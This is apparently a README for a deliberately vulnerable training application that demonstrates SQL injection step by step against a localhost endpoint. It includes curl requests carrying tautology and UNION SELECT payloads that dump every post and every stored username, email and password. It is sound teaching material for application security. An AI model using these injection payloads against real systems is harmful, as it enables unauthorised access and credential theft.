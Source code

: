 # appsec-validation-injection-sql

## Database model

http://localhost:8080/h2-console/login.jsp?jsessionid=6350ae370854407184e14377bbff4db7

```sql
INSERT INTO users (id, username, email, password) VALUES
  (1, 'admin', 'admin@site.internal', '(;C\b6Wva`9{:LYq'),
  (2, 'user1', 'user1@site.external', '[P:n@dzG?LF"T*2W'),
  (3, 'user2', 'user2@site.external', 'u_3AS8k%cxRN~u~q');
```

```sql
INSERT INTO posts (id, slug, title, description) VALUES
  (1, 'post-a', 'Post A', 'Description A'),
  (2, 'post-b', 'Post B', 'Description B'),
  (3, 'post-c', 'Post C', 'Description C');
```

## Retrieve post by user

The following request would retrieve the posts written by 'user1' (id = 2) which have the value 'post-a' as slug:

```bash
curl --request GET \
  --url http://localhost:8080/posts/post-a \
  --header 'referer: https://wikipedia.org'
```

The application would translate this request into the SQL query that is shown next:

```sql
SELECT id, slug, title
FROM posts, user_posts
WHERE posts.id = user_posts.post_id
  AND user_posts.user_id = 2
  AND slug = 'post-a'
```

As it can be seen, the result is a simple list with the information of post 'post-a':

![appsec-validation-injection-sql-retrieve-post-by-user.png](README/appsec-validation-injection-sql-retrieve-post-by-user.png)

## Retrieve all posts

Since the application was vulnerable to SQL injection, the original query could be altered to retrieve all posts written by any user:

```bash
curl --request GET \
  --url http://localhost:8080/posts/post-a%27%20OR%20%271%27%20=%20%271 \
  --header 'referer: https://wikipedia.org'
```

This request would be translated into the following SQL query:

```sql
SELECT id, slug, title
FROM posts, user_posts
WHERE posts.id = user_posts.post_id
  AND user_posts.user_id = 2
  AND slug = 'post-a'
  OR '1' = '1'
```

As a result, all posts stored in the database would be returned to the user:

![appsec-validation-injection-sql-retrieve-all-posts.png](README/appsec-validation-injection-sql-retrieve-all-posts.png)

## Retrieve all users

This type of attack could be used to even retrieve sensitive information about the users registered into the application, emails and passwords included:

```bash
curl --request GET \
  --url 'http://localhost:8080/posts/post-a%27%20UNION%20SELECT%20id,%20username,%20email,%20password%20FROM%20users%20WHERE%20%271%27=%20%271' \
  --header 'referer: https://wikipedia.org'
```

This request would generate a SQL query that would join the `posts` and `users` tables:

```sql
SELECT id, slug, title
FROM posts, user_posts
WHERE posts.id = user_posts.post_id
  AND user_posts.user_id = 2
  AND slug = 'post-a'
UNION
SELECT id, username, email, password
FROM users
WHERE '1'= '1'
```

As it is shown in the following picture, the attacker would have access to all the credentials stored in the database:

![appsec-validation-injection-sql-retrieve-all-users.png](README/appsec-validation-injection-sql-retrieve-all-users.png)
